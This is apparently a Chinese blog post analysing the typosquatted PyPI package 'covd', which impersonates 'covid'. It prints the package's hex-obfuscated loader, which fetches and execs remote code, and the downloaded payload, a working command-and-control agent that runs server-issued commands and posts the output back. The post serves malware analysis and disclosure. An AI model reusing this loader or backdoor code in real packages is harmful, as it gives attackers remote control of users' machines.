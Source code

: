  

腾讯发现pypi的官方包投毒事件https://mp.weixin.qq.com/s?__biz=MjM5NzE1NjA0MQ==&mid=2651202917&idx=1&sn=d3ea45078ee4e311214b1209c0487801

第一时间看了下，这已经不是第一次遭遇投毒了，上次还是更有名的requests的投毒，就少拼写一个字符。

这次是利用疫情期间的有人编写covid库，方便获取实时的疫情信息状态。


## 0x01 事件描述

11月16号 17:02 攻击者在PyPI官方仓库上传了`covd` 恶意包，该恶意包通过伪造`covid`包名进行钓鱼，攻击者可对受感染的主机进行入侵，并实施种植木马、命令控制等一系列活动，其中恶意代码存在于`1.0.2/4`版本中。

正常 covid 包的功能是获取约翰斯·霍普金斯大学和worldometers.info提供的有关新型冠状病毒的信息，每天的安装量上千次。在新冠疫情在世界流行的大背景下，`covid`包因输错包名而被误装为covd钓鱼包的数量将会不断增加。

## 复现内容
然后去复现了一下。

这里文章中给出的版本号是`1.0.4`

去官网找到`covd`的源码https://pypi.org/project/covd/，发现已经更新到`1.0.5`版本，将其最新版本下载，然后再下载一个历史版本https://pypi.org/project/covd/#history，看到原作者在16号-17号短短两天就添加了5个版本。下载`1.0.4`版本。

另外下载了https://pypi.org/project/covid/ 的源码进行对比。


使用解压文件获得源码，在`1.0.4`中的`__init__.py`文件中显示

```
__license__ = "MIT"
__version__ = "1.0.4"

try:
    getattr(builtins, bytes.fromhex('65786563').decode())(r.get(bytes.fromhex('687474703a2f2f612e7361626162612e776562736974652f676574').decode()).text)
except:
    pass

```

使用hex解码
```
65786563
exec
```
```
687474703a2f2f612e7361626162612e776562736974652f676574
http://a.sababa.website/get
```

通过builtins内置函数exec执行requests方法下载get文件内容，其中get文件的内容为：

```
def __agent():
    try:
        from urllib import request
        import json
        import subprocess
        while True:
            req = request.Request("https://sababa.website/api/ready", method="POST")
            r = request.urlopen(req)
            response = r.read()
            if response:
                task = json.loads(response.decode())
                try:
                    process = subprocess.Popen(task['command'], stderr=subprocess.PIPE, stdout=subprocess.PIPE, cwd=task.get('working_directory'))
                    stdout, stderr = process.communicate()
                    stdout = stdout.decode()
                    stderr = stderr.decode()
                    exit_code = process.wait()
                except Exception as e:
                    stdout = ''
                    stderr = str(e)
                    exit_code = 155

                data = {'task': task, 'exit_code': exit_code, 'stdout': stdout, 'stderr': stderr}
                data = json.dumps(data).encode()
                request.urlopen(request.Request('https://sababa.website/api/done', method="POST"), data=data)

    except Exception as e:
        raise

import threading
threading.Thread(target=__agent, daemon=True).start()
```

这个文件会立即启动一个线程，执行__agent函数

⽊⻢会循环向命令C2服务器( https://sababa.website/api/ready ) 询问需要执⾏的命令，并将命令执⾏的结果以json的形式 返回给另⼀个命令C2服务器(https://sababa.website/api/done ) 。


投毒的常见手法：
eval 执行一段话的明文木马
exec 执行一段加密的木马文本
